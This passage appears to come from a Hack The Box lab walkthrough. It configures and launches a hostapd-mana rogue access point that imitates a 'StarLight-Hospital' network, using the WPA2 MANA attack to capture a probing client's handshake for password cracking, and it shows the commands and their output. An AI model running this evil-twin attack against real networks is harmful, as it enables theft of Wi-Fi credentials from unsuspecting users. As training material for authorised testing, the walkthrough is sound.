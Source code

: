 Students will find several clients who have not associated with an access point, with two of them broadcasting probes for the `StarLight-Hospital` and `HackTheBox` networks.

Consequently, the WPA2 MANA attack must be used in order to obtain the password from the client probing for `StarLight-Hospital`. Students need to configure the `hostapd.conf` file accordingly.

Code: shell

```shell
cat << EOF > hostapd.conf 
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=StarLight-Hospital
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=anything
mana_wpaout=handshake.hccapx
EOF
```

```
wifi@HTB-Corp:~$ cat << EOF > hostapd.conf 
interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=StarLight-Hospital
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=anything
mana_wpaout=handshake.hccapx
EOF
```

Using the aforementioned configuration file, students need to activate the rogue AP.

Code: shell

```shell
sudo hostapd-mana hostapd.conf
```

```
wifi@HTB-Corp:~$ sudo hostapd-mana hostapd.conf 

Configuration file: hostapd.conf
MANA: Captured WPA/2 handshakes will be written to file 'handshake.hccapx'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 72:2b:d7:ef:01:56 and ssid "StarLight-Hospital"
random: Only 15/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```
